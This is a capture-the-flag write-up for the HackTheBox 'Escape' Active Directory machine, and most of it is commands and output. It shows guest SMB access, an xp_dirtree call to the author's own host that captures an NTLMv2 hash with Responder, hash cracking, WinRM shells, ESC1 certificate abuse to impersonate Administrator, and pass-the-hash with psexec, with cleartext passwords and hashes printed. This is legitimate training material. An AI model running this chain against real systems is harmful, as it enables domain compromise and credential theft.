


Hi all! This is a writeup for the HackTheBox Box [Escape](https://app.hackthebox.com/machines/Escape).

This box is part of HTB's [Active Directory Track](https://app.hackthebox.com/tracks/60), and is a great way to learn basic offensive AD techniques and vulnerabilities.

The box begins by leveraging an anonymous service login. From there, we discover user credentials for another available service. We then leak the service account's hash, crack it, then use the stolen credentials to pop a shell as the service account. Once we laterally move to a real user, we exploit a popular vulnerability in ADCS to escalate to root.

Let's get started :)

## Recon

### Nmap

As always, we port scan with Nmap

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nmap -sCV -A -T4 -p- --min-rate=1000 -Pn -oA recon/nmap/nmap  10.129.9.23
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 17:15 -0400
Nmap scan report for 10.129.9.23
Host is up (0.021s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-20 05:17:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2026-03-20T05:19:22+00:00; +8h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2026-03-20T05:19:22+00:00; +8h00m00s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-03-20T05:08:47
|_Not valid after:  2056-03-20T05:08:47
| ms-sql-info:
|   10.129.9.23:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.129.9.23:1433:
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-03-20T05:19:22+00:00; +8h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-20T05:19:22+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-20T05:19:22+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-time:
|   date: 2026-03-20T05:18:43
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   22.66 ms 10.10.14.1
2   22.84 ms 10.129.9.23

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.62 seconds
```

Of course, because it's a windows AD box, there's a lot of stuff. There are some things that pop out to me. First, our domain name is `sequel.htb`. Second, there is a lot of certificate/ssl information in this output which means there is probably a certificate authority running. I know this isn't realistic, but the fact that the name of the box is Escape, and the possibility of a certificate authority, made me think this would be an access vector in the future due to the famous `ESC` family of vulnerabilities. Finally, our clock skew is almost 8 hours. This will be an issue if we need to do anything related to kerberos. Let's keep all of this in mind.

Because we know the domain name, I'll add it to my `/etc/hosts` file.
```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ sudo bash -c 'echo -e "10.129.9.23\tsequel.htb" >> /etc/hosts'
```

## Enumeration

### SMB

I usually start with SMB. Especially because we are not given any breach credentials, it is good to look for anonymous access to any services.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nxc smb sequel.htb -u "" -p ""
SMB         10.129.9.23     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.9.23     445    DC               [+] sequel.htb\:

┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nxc smb sequel.htb -u "" -p "" --shares
SMB         10.129.9.23     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.9.23     445    DC               [+] sequel.htb\:
SMB         10.129.9.23     445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Interesting. Null Auth is set to true, and we were able to authenticate (at least partially), but we are not able to enumerate any shares. Let's try the default guest account.

#### Guest Authentication

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nxc smb sequel.htb -u "guest" -p "" --shares
SMB         10.129.9.23     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.9.23     445    DC               [+] sequel.htb\guest:
SMB         10.129.9.23     445    DC               [*] Enumerated shares
SMB         10.129.9.23     445    DC               Share           Permissions     Remark
SMB         10.129.9.23     445    DC               -----           -----------     ------
SMB         10.129.9.23     445    DC               ADMIN$                          Remote Admin
SMB         10.129.9.23     445    DC               C$                              Default share
SMB         10.129.9.23     445    DC               IPC$            READ            Remote IPC
SMB         10.129.9.23     445    DC               NETLOGON                        Logon server share
SMB         10.129.9.23     445    DC               Public          READ
SMB         10.129.9.23     445    DC               SYSVOL                          Logon server share
```

Nice, we have access to some shares!

Why did guest authentication work, but our anonymous logon attempt didn't?

Despite the similarities, anonymous logons (username = "") and guest logons (username = "guest|anonymous") are handled completely differently! Anonymous logons are handled by the built-in "Anonymous Logon" group, and any anonymous user will inherit permissions from this group. Allowing anonymous logons with this default behavior can lead to the leakage of sensitive domain information. The "Anonymous Logon" group, by default, is a member of the "Pre-Windows 2000 Compatible Access" group, which has permissions to access a limited set of domain data like reading password policies, object descriptions, domain parameters, etc.

Guest authentication, however, is different in the sense that the "Guest" account is a real account on windows and AD systems. This means that if you only disable anonymous authentication, there is still a chance guest authentication is still enabled. This seems to be the case for our box.

Source: https://sensepost.com/blog/2024/guest-vs-null-session-on-windows/

#### Public Share Enumeration

With the guest account, we have read access to a on-standard SMB share. We can connect to it and download any interesting content.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ smbclient -U "" -N  //sequel.htb/

┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ impacket-smbclient sequel.htb/guest@sequel.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
Type help for list of commands
# use public
# ls
drw-rw-rw-          0  Sat Nov 19 06:51:25 2022 .
drw-rw-rw-          0  Sat Nov 19 06:51:25 2022 ..
-rw-rw-rw-      49551  Sat Nov 19 06:51:25 2022 SQL Server Procedures.pdf
```

We see one file. Let's download it and see what secrets it holds >:)

```bash
# get SQL Server Procedures.pdf
# exit
<SNIP>
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ xdg-open loot/smb/SQL\ Server\ Procedures.pdf
```

This PDF has a few things that initially stand out to me. First, the employees are talking about a cloned/mock DC instance. This immediately makes me thing of the `DCSync` attack for privesc later. Second, employees are instructed to email Brandon at `brandon.brown@sequel.htb`. If we ever needed to steal session keys to bypass web authentication, this could be a XSS target. Lastly, and most importantly, we are given guest credentials to the SQL server `PublicUser:GuestUserCantWrite1`.




### MSSQL

Let's use those creds to login to the MSSQL instance. Make sure to not add the `-windows-auth` options as specified by the pdf.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ impacket-mssqlclient 'PublicUser':'GuestUserCantWrite1'@sequel.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
<SNIP>
SQL (PublicUser  guest@master)>
```

Success!

We can do some enumeration to see if we can get some easy wins.

```bash
SQL (PublicUser  guest@master)> enable_xp_cmdshell
ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC\SQLMOCK): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (PublicUser  guest@master)> enum_links
SRV_NAME     SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE   SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT
----------   ----------------   -----------   --------------   ------------------   ------------   -------
DC\SQLMOCK   SQLNCLI            SQL Server    DC\SQLMOCK       NULL                 NULL           NULL
Linked Server   Local Login   Is Self Mapping   Remote Login
-------------   -----------   ---------------   ------------
SQL (PublicUser  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor
----------   --------   ---------------   ----------   -------   -------
SQL (PublicUser  guest@master)> enum_logins
name         type_desc   is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin
----------   ---------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------
sa           SQL_LOGIN             0          1               0             0            0              0           0           0           0
PublicUser   SQL_LOGIN             0          0               0             0            0              0           0           0           0
SQL (PublicUser  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID
------------------   --------   ---------   ---------   -------------   ----------   -----
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'
guest                public     NULL        NULL        guest           b'2         '   b'00'
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL
sys                  public     NULL        NULL        NULL            b'4         '    NULL
SQL (PublicUser  guest@master)> enum_db
name     is_trustworthy_on
------   -----------------
master                   0
tempdb                   0
model                    0
msdb                     1
```

Nothing much here. It looks like we are on the SQLMOCK instance. Let's try one more thing :)

```bash
SQL (PublicUser  guest@master)> xp_dirtree \\127.0.0.1\share
subdirectory   depth   file
------------   -----   ----
```

We have `xp_dirtree` access! We can try to use this to steal the NTLMv2 hash of whatever account is running the MSSQL service!

## Foothold

Start by firing up responder.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ sudo responder -I tun0
[sudo] password for kali:
<SNIP>
[+] Listening for events...
```

Then, use `xp_dirtree` to make a SMB connection to our attack host. We don't need to connect to a real share, we just need any connection to come back to us.

```bash
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.62\aseif
subdirectory   depth   file
------------   -----   ----
```

And we catch the NTLMv2 hash!

```bash
[SMB] NTLMv2-SSP Client   : 10.129.9.23
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:49afe5328caf22ea:C30CD4FC1A0BE5F1EEB686FE606CEA5D:0101000000000000005846E1CBB7DC019CC9C3C1D2A453A90000000002000800570048004600510001001E00570049004E002D00460042005100460042005A003500530057004600520004003400570049004E002D00460042005100460042005A00350053005700460052002E0057004800460051002E004C004F00430041004C000300140057004800460051002E004C004F00430041004C000500140057004800460051002E004C004F00430041004C0007000800005846E1CBB7DC0106000400020000000800300030000000000000000000000000300000B1E8D979F424B391EADD4289696123E7C70AC45AC3A9CB56741F82872BEB9C480A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00360032000000000000000000
```

From this, we can see that this authentication attempt is from the sql_svc account. We can throw the hash in to hashcat and try to crack it.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ hashcat -m 5600 hash.txt  /usr/share/wordlists/rockyou.txt
<SNIP>
SQL_SVC::sequel:49afe5328caf22ea:c30cd4fc1a0be5f1eeb686fe606cea5d:0101000000000000005846e1cbb7dc019cc9c3c1d2a453a90000000002000800570048004600510001001e00570049004e002d00460042005100460042005a003500530057004600520004003400570049004e002d00460042005100460042005a00350053005700460052002e0057004800460051002e004c004f00430041004c000300140057004800460051002e004c004f00430041004c000500140057004800460051002e004c004f00430041004c0007000800005846e1cbb7dc0106000400020000000800300030000000000000000000000000300000b1e8d979f424b391eadd4289696123e7c70ac45ac3a9cb56741f82872beb9c480a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360032000000000000000000:REGGIE1234ronnie

Session..........: hashcat
Status...........: Cracked
```

Success! we now have the creds: `sql_svc:REGGIE1234ronnie`

We can verify this with by trying smb authentication.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nxc smb sequel.htb -u sql_svc -p 'REGGIE1234ronnie' --shares
SMB         10.129.9.23     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.9.23     445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie
SMB         10.129.9.23     445    DC               [*] Enumerated shares
SMB         10.129.9.23     445    DC               Share           Permissions     Remark
SMB         10.129.9.23     445    DC               -----           -----------     ------
SMB         10.129.9.23     445    DC               ADMIN$                          Remote Admin
SMB         10.129.9.23     445    DC               C$                              Default share
SMB         10.129.9.23     445    DC               IPC$            READ            Remote IPC
SMB         10.129.9.23     445    DC               NETLOGON        READ            Logon server share
SMB         10.129.9.23     445    DC               Public          READ
SMB         10.129.9.23     445    DC               SYSVOL          READ            Logon server share
```

It works, but we don't have any write permissions on any shares. This means we can't leverage any tools that use SMB write access to pop a shell (like impacket's `psexec.py`). However, we can try using `winrm`.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ evil-winrm -i sequel.htb -u 'sql_svc' -p 'REGGIE1234ronnie'
<SNIP>
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

Aaaaaaaaaaaand, we are in!

## Lateral Movement

Doing some initial checks, I don't see any interesting privileges or anything. We can query the domain to find domain users, groups, etc., but none of that ended up being useful.

Looking around the `C:\` drive, we see a directory that seems to be meant for our current user.

```bash
*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd C:\
*Evil-WinRM* PS C:\> dir
<SNIP>
d-----         2/1/2023   1:02 PM                SQLServer
```

Exploring this directory, we can see some setup configuration files and, more importantly, an error log. Opening the log, there's one erroneous login attempt by the `ryan.cooper` user.

```powershell
*Evil-WinRM* PS C:\SQLServer\Logs> type ERRORLOG.BAK
<SNIP>
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
<SNIP>
```

Right below Ryan's logon attempt, there's another failed logon attempt by username `NuclearMosquito3`. From this, it looks like `ryan.cooper` tried to log on, misclicked something, then put their password in the username and submitted again. Let's assume this is a password and give it a try.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ nxc smb sequel.htb -u ryan.cooper -p 'NuclearMosquito3'
SMB         10.129.9.23     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.9.23     445    DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3
```

They work! Let's login.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ evil-winrm -i sequel.htb -u 'ryan.cooper' -p 'NuclearMosquito3'

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents>
```

`user.txt` is just there for the taking :)

```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper> type Desktop\user.txt
********************************
```

## Privesc

Now let's own the box. Again, running some situational awareness checks doesn't really lead to much. Let's run bloodhound to get a better look.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ bloodhound-ce-python -d sequel.htb -u ryan.cooper -p 'NuclearMosquito3' -c all --zip -ns 10.129.9.23
INFO: Compressing output into 20260319183311_bloodhound.zip
```
```bash
sudo bloodhound
```

Looking at our user's node, we don't see any outbound access controls, so we can't take control of other accounts using ACLs. We also don't see any groups that are particularly interesting.

- Group membership


Running some of the pre-made cypher queries, we also don't find any DCSync permissions, kerberoastable accounts, etc.

So what now? Looking back at the groups, we see the `CERTIFICATE SERVICE DCOM ACCESS` group. recalling the nmap results, this is another data point leading me to believe Active Directory Certificate Service (ADCS) is running.

I'm not sure if this is the _exact_ right way to find this vulnerability, but I just ran `certipy-ad` on the off chance there was ADCS, and vulnerable certificate templates.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ certipy-ad find -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip 10.129.9.23 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)
<SNIP>
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2022-11-18T21:10:22+00:00
    Template Last Modified              : 2024-01-19T00:26:38+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

Nice! Looks like ADCS is running, and `certipy-ad` has identified a vulnerable certificate template. The specific vulnerability is shown on the last line as `ESC1`

### ADCS

ADCS is a service that manages Public Key Infrastructure (PKI) for a domain. There are 4 main components of ADCS that we can exploit:
- Certificate Authority (CA): Signs and issues certificates. The CA is the root of trust in the ADCS hierarchy.
- Certificate Templates: Blueprints that define what certificates can be used for, and who can request said certificates.
- Certificate Store: Where certificates are stored locally on a machine.
- Auto-enrollment: Group policy-driven mechanism that automatically requests and renews certificates.

Specifically, we will be attack misconfigurations in Certificate Templates.

In our case, the `UserAuthentication` certificate shown above has this unique set of misconfigured permissions:
- Client Authentication: True
- Enrollee Supplies Subject: True
- Requires Management Approval: False
- Enrollment Permissions: Non-privileged domain groups included (SEQUEL.HTB\Domain Users)

All of this combined means we can request this certificate template while also supplying **any** other account as a Subject Alternative Name (SAN), and the CA will sign in without asking any questions. The result of this is that we can present a CA-signed certificate saying we are root, and services are forced to trust it because it's valid :).

This combination of misconfigurations and exploitation steps is called the *ESC1* vulnerability.

source: https://xbz0n.sh/blog/adcs-complete-attack-reference

### ESC1 - Requesting the Malicious Certificate

We know this template is vulnerable to *ESC1*, lets exploit it.

First, we need to request a certificate and supply a UPN to add as a SAN to the request. Again, because of the permission misconfigurations, we can add `Administrator@sequel.htb`.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ certipy-ad req -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip 10.129.9.23 -template UserAuthentication -upn 'Administrator@sequel.htb' -ca 'sequel-DC-CA'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

From the output, we can tell we successfully requested the certificate, and it got saved to the file `administrator.pfx`. Essentially, we can now pretend to be the `Administrator@sequel.htb` to services. We can leverage this to get the NTLM hash of the spoofed account via Kerberos.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ certipy-ad auth -dc-ip 10.129.9.23 -pfx administrator.pfx
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

That didn't seem to work. Let's run it again with the `-debug` flag.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ certipy-ad auth -dc-ip 10.129.9.23 -pfx administrator.pfx -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Target name (-target) and DC host (-dc-host) not specified. Using domain '' as target name. This might fail for cross-realm operations
[+] Nameserver: '10.129.9.23'
[+] DC IP: '10.129.9.23'
[+] DC Host: ''
[+] Target IP: '10.129.9.23'
[+] Remote Name: '10.129.9.23'
[+] Domain: ''
[+] Username: ''
[*] Certificate identities:
[*]     SAN UPN: 'Administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[+] Sending AS-REQ to KDC sequel.htb (10.129.9.23)
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/certipy/commands/auth.py", line 596, in kerberos_authentication
    tgt = sendReceive(as_req, domain, self.target.target_ip)
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 93, in sendReceive
    raise krbError
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] See the wiki for more information
```

Nice, this tells us exactly what the problem is. Recall that our Nmap scan said our clock skew is about 8 hours from the DC. Kerberos' max clock skew is usually set to about 5 minutes. We are obviously waaaaaaaay out of that window. Luckily we can manually sync our time as Domain Controllers usually provide ntp services.

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ sudo ntpdate sequel.htb
[sudo] password for kali:
2026-03-20 03:08:17.287418 (-0400) +28799.952448 +/- 0.012187 sequel.htb 10.129.9.23 s1 no-leap
CLOCK: time stepped by 28799.952448
```

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ certipy-ad auth -dc-ip 10.129.9.23 -pfx administrator.pfx -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Target name (-target) and DC host (-dc-host) not specified. Using domain '' as target name. This might fail for cross-realm operations
[+] Nameserver: '10.129.9.23'
[+] DC IP: '10.129.9.23'
[+] DC Host: ''
[+] Target IP: '10.129.9.23'
[+] Remote Name: '10.129.9.23'
[+] Domain: ''
[+] Username: ''
[*] Certificate identities:
[*]     SAN UPN: 'Administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[+] Sending AS-REQ to KDC sequel.htb (10.129.9.23)
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[+] Attempting to write data to 'administrator.ccache'
[+] Data written to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

And there it is, the NTLM hash for the administrator account. Once we have this hash, it's over. Just perform a Pass The Hash (PTH) attack to pop a shell as admin!

```bash
┌──(kali㉿kali)-[~/Documents/htb/escape-writeup]
└─$ impacket-psexec administrator@sequel.htb -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee -no-pass
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on sequel.htb.....
[*] Found writable share ADMIN$
[*] Uploading file HShqZPLc.exe
[*] Opening SVCManager on sequel.htb.....
[*] Creating service YuMu on sequel.htb.....
[*] Starting service YuMu.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
*********************************
```

We're done!

## Conclusion

Thanks again if you've made it this far. This was a *great* box that I would recommend you do yourself if you have any interested in doing Windows boxes. It also directly leads up to the EscapeTwo box that I will probably write up in the future. (Maybe soon because I'm trying to catch up on writeups for boxes I've already solved).

Later gators!
